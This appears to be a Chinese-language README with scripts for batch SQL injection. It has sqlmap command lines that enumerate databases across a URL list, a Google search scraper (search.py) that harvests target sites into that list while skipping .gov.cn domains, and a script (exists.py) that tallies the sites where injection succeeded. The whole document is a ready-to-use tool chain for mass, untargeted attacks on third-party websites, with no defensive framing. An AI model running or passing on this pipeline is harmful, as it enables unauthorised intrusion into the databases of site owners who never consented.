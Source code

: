 # 脚本批量sqli

## sqlmap.py使用方法
`python .\sqlmap.py -m .\url.txt --dbs --batch --random-agent -p "id" --output-dir result`
`python .\sqlmap.py -m .\url.txt --dbs --batch --risk 2 --level 3 --random-agent -p "id" --output-dir result`
`python .\sqlmap.py -m .\url.txt --dbs --batch --force-ssl --random-agent -p "id" --output-dir result`
`python .\sqlmap.py -m .\url.txt --dbs --batch --force-ssl --random-agent -p "id" --output-dir result --proxy=http://127.0.0.1:7890`



## search.py

```python
import requests
from lxml import etree
import time
def create_requests(page,data):
    url="https://www.google.com/search?q="+data+"&lr=lang_zh-CN&start={}".format(page)+"&ie=utf-8"
    header={
        "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36"
    }
    proxy={
        "http":"127.0.0.1:10809",
        "https":"127.0.0.1:10809"
    }
    response=requests.get(url=url,headers=header,proxies=proxy)
    response.encoding="utf-8"
    context=response.text
    return context
def parse_data(context):
    parse=etree.HTML(context)
    data=parse.xpath('//*/@href')
    f=open(r"url.txt","a")
    for url in data:
        if "/search?" in url:
            continue
        if "google.com" in url:
            continue
        if ".jpg" in url:
            continue
        if "jpeg" in url:
            continue
        if "png" in url:
            continue
        if "#" in url:
            continue
        if "%" in url:
            continue
        if "url=https://" in url:
            continue
        if "url=http://" in url:
            continue
        if ".pdf" in url:
            continue
        if ".htm" in url:
            continue
        if ".htmls" in url:
            continue
        if ".html" in url:
            continue
        if ".gov.cn" in url:
            continue
            break
        f.write(url+"\n")
        print(url+"成功写入")
    f.close()
if __name__ == '__main__':
    data = input("请输入Google语法:")
    print("----------------------开始抓取----------------------")
    for page in range(0,int(input("请输入结束页面的倍数:")),10):
        context=create_requests(page,data)
        parse_data(context)
    print("----------------------抓取完毕----------------------")
```

## exists.py

```python
import os
import shutil
def get_exists(path,sum):
    sum=0
    for root,dirs,files in os.walk(path):
        log_path=os.path.join(root,"log")
        if os.path.isfile(log_path) and os.path.getsize(log_path)==0:
            shutil.rmtree(root)
        else:
            sum+=1
            print(root+"\t注入成功")
            continue
    return sum
if __name__ == '__main__':
    path=r"result"
    print("--------------------开启执行--------------------")
    sum=get_exists(path,sum)
    print("--------------------成功找到{}注入点--------------------".format(sum))
```

